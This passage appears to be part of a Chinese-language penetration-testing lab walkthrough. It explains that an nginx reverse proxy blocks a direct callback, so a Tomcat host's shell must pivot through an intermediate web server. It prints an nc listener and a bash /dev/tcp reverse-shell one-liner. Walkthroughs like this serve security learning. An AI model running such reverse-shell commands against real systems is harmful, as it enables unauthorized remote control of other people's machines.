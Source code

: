 [![](assets/1708094050-b77ee26cee45f20168c465463ee787a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144716-75ce6cfa-0fff-1.png)  
发现了 nginx 反向代理的标志 proxy\_pass。ubuntu 18（192.168.52.10）服务器上的 nginx 将 80 端口收到的请求转发给了 [http://192.168.52.20:8080，将](http://192.168.52.20:8080，将) 81 端口收到的请求转发给了 [http://192.168.52.20:8000。](http://192.168.52.20:8000。)  
所以 80 端口的 shell 反弹不到攻击机，只能使用 ubuntu18 (web1)（192.168.52.10）做为跳板机，先将 tomcat 的 shell（192.168.52.20）反弹到 ubuntu (web1)

```bash
nc -lvp 1234
bash -c "bash -i >& /dev/tcp/192.168.52.10/1234 0>&1"   # 反弹 shell
```

[![](assets/1708094050-065a3be0a0fb9a5eae09a40f72250e9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144728-7d2dfaba-0fff-1.png)

[![](assets/1708094050-0127b5c5bb6344ac1ef0c8b4f6e14480.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144734-806bfede-0fff-1.png)
